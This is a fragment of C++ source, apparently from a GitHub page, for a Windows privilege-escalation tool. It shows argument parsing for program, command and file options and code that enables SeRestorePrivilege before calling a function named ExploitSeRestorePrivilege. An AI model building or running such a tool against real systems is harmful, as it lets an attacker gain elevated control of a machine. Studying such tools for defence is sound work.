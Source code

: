 ```c++
            {
                program = (LPCWSTR)argv[1];
            }
            break;
        case 'c':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                command = (LPCWSTR)argv[1];
            }
            break;
        case 's':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                sourceFile = (LPCWSTR)argv[1];
            }
            break;
        case 'd':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                destFile = (LPCWSTR)argv[1];
            }
            break;
        default:
            wprintf(L"[-] Invalid Argument: %s.\n", argv[1]);
            PrintUsage();
            return 0;
        }

        ++argv;
        --argc;
    }

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
    {
        wprintf(L"[-] OpenProcessToken Error: [%u].\n", GetLastError());
        return 0;
    }
    // Enable SeRestorePrivilege for the current process token.
    if (EnableTokenPrivilege(hToken, SE_RESTORE_NAME))
    {
        if (ExploitSeRestorePrivilege(expType, program, command, sourceFile, destFile))
        {
            return 1;
        }
    }
}
```
